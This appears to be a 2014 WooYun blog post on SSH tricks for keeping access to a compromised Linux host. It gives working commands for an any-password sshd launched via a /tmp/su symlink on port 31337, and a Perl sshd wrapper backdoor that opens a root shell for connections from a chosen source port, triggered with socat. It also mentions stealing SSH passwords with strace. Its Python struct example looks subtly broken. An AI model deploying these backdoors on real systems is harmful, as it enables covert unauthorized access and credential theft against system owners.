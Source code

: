 # 渗透技巧之 SSH 篇

2014/05/12 13:57 | [mickey](http://drops.wooyun.org/author/mickey "由 mickey 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

用些小技巧，蒙蒙菜鸟管理员。

### 1\. 入侵得到 SHELL 后，对方防火墙没限制，想快速开放一个可以访问的 SSH 端口

肉鸡上执行

```
mickey@vic:~# ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=31337; 

```

就会派生一个 31337 端口，然后连接 31337，用 root/bin/ftp/mail 当用户名，密码随意，就可登陆。

效果图：

![enter image description here](img/img1_u62_png.jpg)

### 2\. 做一个 SSH wrapper 后门，效果比第一个好，没有开放额外的端口，只要对方开了 SSH 服务，就能远程连接

在肉鸡上执行：

```
[root@localhost ~]# cd /usr/sbin
[root@localhost sbin]# mv sshd ../bin
[root@localhost sbin]# echo '#!/usr/bin/perl' >sshd
[root@localhost sbin]# echo 'exec "/bin/sh" if (getpeername(STDIN) =~ /^..4A/);' >>sshd
[root@localhost sbin]# echo 'exec {"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
[root@localhost sbin]# chmod u+x sshd
[root@localhost sbin]# /etc/init.d/sshd restart

```

在本机执行：

```
socat STDIO TCP4:10.18.180.20:22,sourceport=13377

```

如果你想修改源端口，可以用 python 的 struct 标准库实现

```
>>> import struct
>>> buffer = struct.pack('>I6',19526)
>>> print repr(buffer)
'\x00\x00LF'
>>> buffer = struct.pack('>I6',13377)
>>> print buffer
4A

```

效果图如下：

![enter image description here](img/img2_u62_png.jpg)

### 3\. 记录 SSH 客户端连接密码

搞定主机后，往往想记录肉鸡 SSH 连接到其他主机的密码，进一步扩大战果，使用 strace 命令就行了。

效果图：

![enter image description here](img/img3_u58_png.jpg)

版权声明：未经授权禁止转载 [mickey](http://drops.wooyun.org/author/mickey "由 mickey 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [64 位 Linux 下的栈溢出](http://drops.wooyun.org/tips/2288)
*   [Kippo 蜜罐指南](http://drops.wooyun.org/papers/4578)
*   [各种环境下的渗透测试](http://drops.wooyun.org/tips/411)
*   [Python 编写简易木马程序](http://drops.wooyun.org/papers/4751)
*   [GNU/Linux 安全基线与加固-0.1](http://drops.wooyun.org/tips/2621)
*   [One git command may cause you hacked(CVE-2014-9390)](http://drops.wooyun.org/papers/4386)